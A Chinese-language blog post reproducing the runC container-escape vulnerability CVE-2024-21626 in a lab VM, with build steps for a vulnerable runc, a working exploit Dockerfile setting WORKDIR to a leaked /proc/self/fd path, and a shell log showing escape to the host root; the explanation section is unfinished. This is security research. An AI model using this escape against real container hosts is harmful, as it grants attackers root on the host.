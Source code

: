 ```yaml
---
title: CVE-2024-21626
date: 2025-03-03 18:27:00
tags: [Web, 渗透]
categories: 渗透
---
```


研究一下 Docker 的 CVE。

<!--more-->

## 前置知识

### 什么是 Docker

相信读这篇文章的大部分人都知道 Docker 是什么，但不一定能背出这种八股问题。
Deepseek 给出的回答是：Docker 是一种开源的容器化平台，用于快速构建、打包、部署和运行应用程序。它的核心思想是通过容器技术，将应用及其依赖环境（如库、配置等）打包成一个轻量级、可移植的镜像，从而实现 **“一次构建，处处运行”**。

### 什么是 runC

runC 是一个开源的容器运行时，是 Docker 的一部分，用于创建和运行容器。runC 是一个轻量级的工具，它实现了 [OCI](https://opencontainers.org/) 标准，可以在任何 OCI 兼容的容器运行时中使用。

## 复现

用 WSL 一直复现不出来，WSL 的情况很奇怪，`docker version` 能看到版本是老的，但是直接执行 `runc` 又没有这条命令。
实在不行了，换 VMWare 里搞搞
新建了个 Ubuntu 20.04 的虚拟机，选择 Minimal Installation，不要浏览器之类乱七八糟的东西。
学校内网有镜像站，直接换个源起飞。

```bash
sudo rm /etc/apt/sources.list   # 要备份就 mv 一下，因为我是新机，就直接删了
sudo nano /etc/apt/sources.list
```

粘贴后 `Ctrl + O` 保存，`Ctrl + X` 退出。

```bash
sudo apt update
sudo apt upgrade
```

这里默认没带 SSH，执行 `sudo apt install openssh-server` 装一下。不然不太习惯 Ubuntu 自带的终端。
然后安装 Docker

```bash
sudo apt install docker.io
```

`docker version` 看一下版本，runc 是新的，还是得自己编译老版本替换。

```bash
git clone https://github.com/opencontainers/runc
cd runc
git checkout v1.1.0-rc.1
sudo apt install -y build-essential libseccomp-dev   # 不然会报错
make
sudo rm -rf $(which runc)
sudo make install
sudo systemctl restart docker
```

这个新机 make 和 go 都没有，中途也装了一下，不提。
写一个 Dockerfile 如下：

```Dockerfile
FROM ubuntu
 
# Sets the current working directory for this image
WORKDIR /proc/self/fd/7/
```

执行 `docker build . -t test`，这里 `-t` 的意思是 tag。
再执行 `docker run --rm -it test bash`，这里 `--rm` 可以让容器停止后自动删除容器文件系统，避免手动清理临时容器，一般用于测试，`-it bash` 意思是起一个交互式的 bash shell。
说是可能要多执行几次才会成功，但是执行了几十次都不行，把 Dockerfile 的 `WORKDIR` 改成 `WORKDIR /proc/self/fd/8/` 就可以了。

OHHHHHHHHH!!!!!!!!!
以下是命令执行记录：

```bash
kali@cverc:~/cve-2024-21626$ sudo docker run --rm -it test bash
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root@6e9ec0c97b8f:.# cd ../..
chdir: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root@6e9ec0c97b8f:../..# ls
block  bus  class  dev  devices  firmware  fs  hypervisor  kernel  module  power
root@6e9ec0c97b8f:../..# pwd
../..
root@6e9ec0c97b8f:../..# cd ..
root@6e9ec0c97b8f:../../..# ls /
bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@6e9ec0c97b8f:../../..# ls /home
ubuntu
root@6e9ec0c97b8f:../../..# docker ps
bash: docker: command not found
root@6e9ec0c97b8f:../../..# chroot .
# ls
bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   snap  swapfile  tmp  var
boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   sys       usr
# docker ps
CONTAINER ID   IMAGE     COMMAND   CREATED         STATUS         PORTS     NAMES
6e9ec0c97b8f   test      "bash"    4 minutes ago   Up 4 minutes             admiring_gates
# whoami
root
# exit
root@6e9ec0c97b8f:../../..# exit
exit
kali@cverc:~/cve-2024-21626$ sudo docker run --rm -it test
[sudo] password for kali:
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root@21b173949eee:.# exit
exit
kali@cverc:~/cve-2024-21626$ sudo docker run --rm -it test bash
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root@d5e014a9425b:.#
```

这里简单提下，`chroot` 是改变根目录的命令，`chroot .` 就是把当前目录作为根目录，这样操作起来就跟宿主机一样了。

## 原理

// TO be continued

## 参考

<https://nitroc.org/posts/cve-2024-21626-illustrated/#%E6%9E%84%E9%80%A0%E6%81%B6%E6%84%8F%E9%95%9C%E5%83%8F%E5%AE%9E%E7%8E%B0%E5%88%A9%E7%94%A8>
<https://www.manjusaka.blog/posts/2024/02/10/CVE-2024-21626/index.html>
